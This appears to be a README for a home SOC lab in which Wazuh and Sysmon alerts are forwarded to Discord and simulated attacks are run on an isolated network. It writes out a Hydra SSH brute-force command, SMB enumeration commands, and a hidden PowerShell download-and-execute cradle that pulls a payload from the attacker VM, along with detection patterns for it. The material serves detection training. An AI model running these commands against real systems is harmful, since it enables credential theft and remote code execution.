


# SOC Automation Lab

A home lab simulating SOC operations with Wazuh SIEM, Sysmon endpoint monitoring,
and a custom real-time alerting pipeline to Discord.

[](videos/brute-force-demo.mp4)
**▲ Click the image above to watch the SSH brute force detection demo**

---

## Architecture

| VM | Role | Interface | IP |
|----|------|-----------|-----|
| Ubuntu 24.04 | Wazuh SIEM + Custom Discord Integration | enp0s8 | 192.168.56.101 |
| Windows 11 | Victim endpoint, Wazuh Agent + Sysmon | Ethernet 2 | 192.168.56.102 |
| Kali Linux | Attacker | eth1 | 192.168.56.103 |

All three machines run on a VirtualBox host-only network, isolated from the internet.


---

## Demo Video

`videos/brute-force-demo.mp4`

The recording shows, side by side:
- Kali running a Hydra SSH brute force attack
- Raw Wazuh alerts streaming in real time on the manager (`alerts.json`)
- Discord receiving formatted alerts with MITRE ATT&CK mapping, live, as the attack runs

---

## Screenshots

### Windows 11 victim agent connected to the Wazuh manager


### Shuffle SOAR workflow (Webhook → Python → Discord)


### SMB enumeration scan against the Windows victim


---

## Tools Used

- **Wazuh** — SIEM, log analysis, MITRE ATT&CK mapping
- **Sysmon** — Windows endpoint visibility
- **Python** — custom Wazuh-to-Discord integration
- **Shuffle** — SOAR workflow experimentation (webhook-triggered automation)
- **Kali Linux** — attack simulation (Hydra, Nmap, enum4linux)

---

## Attack Scenarios Detected

### 1. SSH Brute Force (MITRE T1110 — Credential Access)

Simulated a credential stuffing attack using Hydra against the Wazuh/Ubuntu server.

**Command used:**
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.56.101 ssh -t 4
```

**Rules triggered:**
- Level 10 — Multiple authentication failures (Rule 40111)
- Level 10 — PAM: Multiple failed logins in a small period of time (Rule 5551)
- Level 8 — Maximum authentication attempts exceeded (Rule 5758)
- Level 5 — sshd: authentication failed (Rule 5760)

MITRE techniques mapped: **T1110.001** (Password Guessing), **T1021.004** (SSH / Lateral Movement)

### 2. Network & SMB Enumeration (MITRE T1135 — Network Share Discovery)

Performed reconnaissance against the Windows 11 victim to enumerate shares, users,
and workgroup information.

**Commands used:**
```bash
enum4linux -a 192.168.56.102
nmap --script smb-enum-shares,smb-enum-users -p 445 192.168.56.102
```

**Result:** Enumerated the workgroup name, NetBIOS service info, and known
usernames on the target. Wazuh flagged related activity on the Windows11-Victim
agent, including a Level 15 critical alert for an executable dropped in a
malware-associated folder, and a Level 12 alert for event queue flooding caused
by the scan volume.

### 3. Process Injection False Positive Tuning

Identified and suppressed a recurring false positive (Rule 92910 — OneDrive
process legitimately accessing Explorer, flagged as possible process injection)
using a custom local rule. See [`configs/local_rules.xml`](configs/local_rules.xml)
for the exact rule definition. This demonstrates real-world alert tuning to
reduce analyst fatigue from noisy detections.

---

## Detection Gap Analysis: Encoded PowerShell Execution

Attempted to simulate a Living-off-the-Land technique (T1059.001) using a hidden,
execution-policy-bypassed PowerShell command with `DownloadString`:

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.56.103/payload.ps1')"
```

Sysmon correctly logged the process creation event (Event ID 1) with the full
command line, but no default Wazuh rule matched this specific pattern — meaning
it would not have triggered an alert in this configuration.

**Finding:** Default Wazuh/Sysmon rulesets do not flag common PowerShell-based
LOLBins behavior out of the box. A production deployment would require custom
detection rules matching command-line patterns like `-EncodedCommand`,
`-WindowStyle Hidden`, or `IEX(New-Object Net.WebClient)`.

This is documented as a finding rather than a failed test — identifying detection
gaps is a core part of SOC alert tuning and rule development work.

---

## How It Works

1. Wazuh manager monitors agent logs (Windows Sysmon + Ubuntu syslog/auth)
2. On a rule match at or above the configured severity level, a custom Python
   integration script executes
3. The script parses the alert JSON, extracting rule level, description, agent
   name, and MITRE ATT&CK tactic/technique
4. A formatted message is sent to Discord via webhook in real time

```
Wazuh Manager → Rule Match → Python Integration → Discord Webhook → #wazuh-alerts
```

---

## Files

- `configs/ossec.conf` — Wazuh manager configuration
- `configs/custom-discord` — Python integration script (webhook redacted)
- `configs/local_rules.xml` — custom rule tuning (false positive suppression)

---

## Lessons Learned & Troubleshooting

Real infrastructure issues encountered and resolved during this project:

| Issue | Root Cause | Fix |
|-------|-----------|-----|
| Shuffle workflow executions stuck at "EXECUTING" indefinitely | Docker Swarm worker timing out trying to download tool images on every restart | Pre-pulled images with `docker pull` and force-updated the swarm service |
| Wazuh dashboard showing "Something went wrong" | OpenSearch indexer running out of available RAM while competing with Shuffle's own OpenSearch instance | Restarted and memory-capped competing containers; increased systemd `TimeoutStartSec` for slow service starts |
| `wazuh-manager` and `wazuh-indexer` failing to start with timeout errors | Default 90-second systemd start timeout too short under memory pressure | Used `systemctl edit` to set `TimeoutStartSec=300` |
| Kali VM filesystem corruption (`emergency_ro` remount) | Improper VM shutdown during testing | Booted into recovery mode and ran `fsck -f` to repair the filesystem |
| OneDrive triggering repeated "possible process injection" alerts | Default Sysmon rule too broad, flagging legitimate OneDrive update behavior | Wrote a custom Wazuh local rule to suppress that specific rule ID |

These issues reflect realistic SIEM/infrastructure maintenance work — keeping
detection pipelines running reliably is as much a part of SOC operations as
writing detection logic itself.

---

## Notes

During testing, the Wazuh dashboard UI had a persistent index-pattern filter
caching issue preventing the Threat Hunting view from displaying events, despite
alerts being correctly generated and indexed (verified via direct OpenSearch query
— 741+ alerts confirmed indexed). The underlying detection-to-alert pipeline
(manager → integration → Discord) operates independently of the dashboard UI
and was fully validated via `alerts.json` and live Discord delivery.

---

## Key Takeaways

- Deployed and configured Wazuh SIEM across multiple OS platforms
- Built a custom Python integration parsing security alerts to deliver
  real-time, MITRE-mapped notifications
- Simulated and validated detection of MITRE ATT&CK **T1110** (Brute Force) and
  **T1135** (Network Share Discovery)
- Identified a detection gap for encoded PowerShell execution (T1059.001) and
  documented the finding
- Performed alert tuning to reduce false positive noise
- Debugged real infrastructure issues, including Docker Swarm image-download
  timeouts, OpenSearch memory contention, and filesystem corruption recovery
  on the attacker VM
